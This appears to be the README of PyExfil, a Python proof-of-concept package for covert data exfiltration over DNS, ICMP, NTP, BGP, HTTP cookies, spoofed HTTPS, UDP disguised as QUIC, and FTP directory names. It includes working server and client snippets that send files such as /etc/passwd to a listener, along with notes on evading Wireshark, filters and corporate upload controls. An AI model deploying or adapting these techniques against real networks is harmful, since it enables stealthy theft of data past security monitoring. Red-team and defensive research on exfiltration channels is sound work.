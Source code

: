 # PyExfil

## Abstract
This started as a PoC project but has later turned into something a bit more. Currently it's an Alpha-Alpha stage package, not yet tested (and will appriciate any feedbacks and commits) designed to show several techniques of data exfiltration is real world scenarios. Currently here are what the package supports and what is allows is:

* DNS query.
* HTTP Cookie.
* ICMP (8).
* NTP requests.
* BGP Open.
* HTTPS Replace Certificate.
* QUIC - No Certificate.
* POP3 Authentication (as password) - Idea thanks to [Itzik Kotler](https://github.com/ikotler)
* FTP MKDIR technique - Idea thanks to [Itzik Kotler](https://github.com/ikotler)

Package is still not really usable and will provide multiple issues. Please wait for a more reliable version to come along. You can track changes at the official [GitHub page](http://ytisf.github.io/PyExfil/).
The release of Symantec's Regin research was the initiator of this module. It is inspired by some of the features of [Regin](http://www.symantec.com/connect/blogs/regin-top-tier-espionage-tool-enables-stealthy-surveillance). Go read about it :)

## Techniques

### DNS
This will allow establish of a listener on a DNS server to grab incoming DNS queries. It will then harvest them for files exfiltrated by the client. It **does not** yet allow simultaneous connections and transfers. DNS packets will look good to most listeners and *Wireshark* and *tcpdump* (which are the ones that have been tested) will show normal packet and not a 'malformed packet' or anything like that.

### HTTPS Replace certificate
With this method you are configuring an HTTP server to impersonate the certificate. When you exfiltrate data, it will use the original server to exchange certificates with the duplicating server (port forwarding) and then, when this is complete, transmit the data with AES encryption but wraps it up as SSL Application Data as there is no real way of telling this.

#### Server Setup - String Mode
```python
from pyexfil.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192)
server.startlistening()
```

#### Client Setup - String Mode
```python
from pyexfil.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendData("ABC")
client.sendData("DEFG")
client.close()
```

#### Server Setup - File Mode
```python
from pyexfil.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192, file_mode=True)
server.startlistening()
```

#### Client Setup - File Mode
```python
from pyexfil.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendFile("/etc/passwd")
client.close()
```


### HTTP Cookie
Exfiltration of files over HTTP protocol but over the Cookies field. The strong advantage of this is that the cookie field is supposed to be random noise to any listener in the middle and therefore is very difficult to filter.

### ICMP
Uses ICMP 8 packets (echo request) to add a file payload to it. It reimplemented ICMP ping requests and some sniffers are known to capture it as malformed packets. Wireshark currently displays it as a normal packet.

### FTP MKDIR
FTP MKDIR is a technique based on using an FTP server and assuming that the corporate is using an active MiTM to disable file upload. With this in mind, the file is then compressed using `zlib` and base64 encoded (to be ASCII representable) and then splitted into chunks. Each chunk is then made the name of a directory using MKDIR command (which is not a file upload and should be enabled).
It can be used in the following manner:

#### File Exfil
```python
# Port is by default 21, but can be changed with 'port=2121'
# Credentials are () but can be added with: creds=('user','pass')
# TLS is disabled by default but could be added with tls=True
FTPexf = FTPExfiltrator(server="10.211.55.15", file2exfil="/bin/bash")
FTPexf.get_file_chunks()
FTPexf.build_final_chunks()
FTPexf.send_chunks()
```

#### File Reconstruction
```python
# Directory argument can be added with: dir="/home/user/directory"
FTPHand = GetContent()
FTPHand.get_file()
```

### QUIC
In this method, we exfiltrate files over UDP 443 as to look like QUIC. Currently, it is written as first PoC and less as a functional tool. For example, will only work with one file at a time and not concurrent. Vailidy only checks MD5 and not individual packets (server does not request missing chunks from client, which it should). Nevertheless, this seems to work fine in several checks we've done and seems viable exfiltration for single file.

In the future, we should add the things mentioned above. Currently, this does not seem like there is a profiling that can be done on these streams as they appear to be identified by all interceptors as QUIC and unresolvable to the content (while QUIC uses true SSL, this uses AES which still gives a binary blob which is meaningless).

#### Server
```python
from pyexfil.QUIC.quic_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123")
server.startlistening()
```

#### Client
```python
from pyexfil.QUIC.quic_client import QUICClient

client = QUICClient(host='127.0.0.1', key="123", port=443)      # Setup a server

# This part is just for debugging and printing, no read use
a = struct.unpack('<LL', client.sequence)                       # Get CID used
a = (a[1] << 32) + a[0]
sys.stdout.write("[.]\tExfiltrating with CID: %s.\n" % a)

client.sendFile("/etc/passwd")                                  # Exfil File
client.close()
```

## Future Stuff
### Version Alpha
- [X] Check why HTTP Cookie exfiltration keeps failing CRC checks. (Fixed in patch #7 by Sheksa)
- [X] Add NTP exfiltration. (Thanks to barachy for the idea)
- [X] Complete NTP listener.
- [X] BGP Data exfiltration + listener.
- [X] FTP MKDIR Exfiltrator & combiner.

### Version Beta
- [x] More QA needed and fast!
- [ ] Write a proper Documentation.
- [ ] Fix that poorly written *setup.py*.

### Version 1.0
- [ ] Enable simultaneous support for all data exfiltration methods.
- [ ] Unify all to a single platform.
- [ ] Testing for py2exe support.
- [ ] Translate module to C Linux.
- [ ] Get a damn logo :)

## Thanks
Thanks [Wireshark](http://wireshark.com/) for your awesome wiki and tool. Especially [packet dumps](http://wiki.wireshark.org/SampleCaptures).
Thanks to barachy and AM for ideas on protocols to use.
